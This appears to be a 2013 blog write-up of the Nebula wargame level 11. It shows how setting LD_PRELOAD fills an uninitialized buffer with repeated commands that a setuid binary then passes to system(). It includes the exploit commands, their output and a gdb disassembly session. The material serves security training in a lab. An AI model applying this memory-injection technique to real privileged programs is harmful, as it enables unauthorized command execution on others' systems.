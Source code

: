 +++
author = "pwntester"
categories = ["nebula11"]
date = 2013-11-27T17:30:00Z
description = ""
draft = false
slug = "nebula-level11-revisited"
tags = ["nebula11"]
title = "Nebula level11 revisited"

+++

After reading this great [post](http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/) by Dan Rosenberg, I learned about using **LD_PRELOAD** to pre-populate uninitializaed variables with arbitrary contents. The details are explained in the article, I just wanted to show how it can be used to solve challange 11.

Ok, so we are going to try to fill the uninitialized buffer used in the process function with a string containing the commands to be be run:

```lang-bash line-numbers 
level11@nebula:/home/flag11$ export LD_PRELOAD=`python -c 'print("\x0a/bin/getflag"*80)'`
```

Now we can go and execute our binary and see if it works:
```lang-bash line-numbers 
level11@nebula:/home/flag11$ python -c 'print "Content-Length: 1\n"' | ./flag11
ERROR: ld.so: object '
/bin/getflag
/bin/getflag
...
...
/bin/getflag
/bin/getflag
/bin/getflag' from LD_PRELOAD cannot be preloaded: ignored.
sh: $'\v': command not found
You have successfully executed getflag on a target account
You have successfully executed getflag on a target account
...
...
You have successfully executed getflag on a target account
You have successfully executed getflag on a target account
sh: line 75: /bin=q�: No such file or directory
```

The first error is when trying to link our fake library, then there is an error:

```lang-bash line-numbers 
sh: $'\v': command not found
```

Followed by a bunch of successful **getflag** executions and then another error:

```lang-bash line-numbers 
sh: line 75: /bin=q�: No such file or directory
```

Lets see what was the string passed to **system()**:

```lang-bash line-numbers 
(gdb) b main
Breakpoint 1 at 0x8048956
(gdb) b process
Breakpoint 2 at 0x80488fd
(gdb) run
Starting program: /home/flag11/flag11
.. rubish ..
Breakpoint 1, 0x08048956 in main ()
(gdb) c
Continuing.
Content-Length: 1


Breakpoint 2, 0x080488fd in process ()
(gdb) disas process
Dump of assembler code for function process:
   0x080488f7 <+0>:	push   %ebp
   0x080488f8 <+1>:	mov    %esp,%ebp
   0x080488fa <+3>:	sub    $0x28,%esp
=> 0x080488fd <+6>:	mov    0xc(%ebp),%eax
   0x08048900 <+9>:	and    $0xff,%eax
   0x08048905 <+14>:	mov    %eax,-0x10(%ebp)
   0x08048908 <+17>:	movl   $0x0,-0xc(%ebp)
   0x0804890f <+24>:	jmp    0x804893c <process+69>
   0x08048911 <+26>:	mov    -0xc(%ebp),%eax
   0x08048914 <+29>:	add    0x8(%ebp),%eax
   0x08048917 <+32>:	mov    -0xc(%ebp),%edx
   0x0804891a <+35>:	add    0x8(%ebp),%edx
   0x0804891d <+38>:	movzbl (%edx),%edx
   0x08048920 <+41>:	mov    %edx,%ecx
   0x08048922 <+43>:	mov    -0x10(%ebp),%edx
   0x08048925 <+46>:	xor    %ecx,%edx
   0x08048927 <+48>:	mov    %dl,(%eax)
   0x08048929 <+50>:	mov    -0xc(%ebp),%eax
   0x0804892c <+53>:	add    0x8(%ebp),%eax
   0x0804892f <+56>:	movzbl (%eax),%eax
   0x08048932 <+59>:	movsbl %al,%eax
   0x08048935 <+62>:	sub    %eax,-0x10(%ebp)
   0x08048938 <+65>:	addl   $0x1,-0xc(%ebp)
   0x0804893c <+69>:	mov    -0xc(%ebp),%eax
   0x0804893f <+72>:	cmp    0xc(%ebp),%eax
   0x08048942 <+75>:	jl     0x8048911 <process+26>
   0x08048944 <+77>:	mov    0x8(%ebp),%eax
   0x08048947 <+80>:	mov    %eax,(%esp)
   0x0804894a <+83>:	call   0x80485f0 <system@plt>
   0x0804894f <+88>:	leave
   0x08048950 <+89>:	ret
End of assembler dump.
(gdb) b *process + 83
Breakpoint 3 at 0x804894a
(gdb) c
Continuing.

Breakpoint 3, 0x0804894a in process ()
(gdb) x/s $eax
0xbf927dfc:	 "\vflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getflag\n\n/bin/getfla"...
```

Ok, so there we can see how buffer was initialized and why we got the first command error when running **\vflag** and why we got so many **getflag** executions thanks to using the new line character **%x0a**
